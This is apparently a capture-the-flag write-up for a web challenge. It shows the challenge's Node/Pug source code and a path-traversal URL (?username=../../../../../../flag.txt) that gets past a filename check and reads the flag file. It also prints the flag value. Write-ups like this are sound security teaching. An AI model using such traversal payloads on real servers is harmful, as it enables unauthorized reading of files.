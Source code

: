 # Stealing Favorite Animal Flags (web) from Cyber Academy Fall 2023

We are presented with a website and source code. By looking at index.jade in the source code, we see that anything submitted into the username query can be executed. 

```
extends layout

block content
  //- I wonder what the difference between !{} and #{} is in pugjs...
  h1 Hello !{user}!
  p It is now !{time}
  p Your favorite animal is !{animal}
```

In index.js, we see how the program gets the username and we find out that we can use the ?username query parameter to specify the username.

```
/* GET home page. */
router.get('/', function(req, res, next) {
  // Get the username using the ?username query parameter
  let user = req.query.username
  if (user === undefined) {
    // If query parameter doesn't exist, look for it in the cookies
    user = req.cookies["username"]
    if (user === undefined) {
      // if still not found, have the user log in
      return res.redirect("/login");
    }
  }
  // Try and find the user's data file using the format db/USERNAME
  fs.readFile(`db/${user}`, function(err, data) {
    res.setHeader("Content-Security-Policy", "default-src * 'unsafe-inline' 'unsafe-eval';") // Who needs security >:( let the <script> tag be free!
    return res.render('index', { user: user, time: Date().toString(), animal: data, title: `Hello, ${user}!` });
  });
});
```

I thought LFI would be the answer to this challenge, but it's more complicated because we are unable to have a username containing '.' or '/'. 

```
if (username.includes(".") || username.includes("/")) {
    res.status(400);
    res.send("Invalid username");
    return;
```

This meant I would have to specify the username by setting the username query in the URL. 

```
https://favorite-animal.acmcyber.com/?username=../../../../../../flag.txt
```

The URL ends up returning the flag, which is cyber{ch3ck_y0ur_f1le_pa7h2}
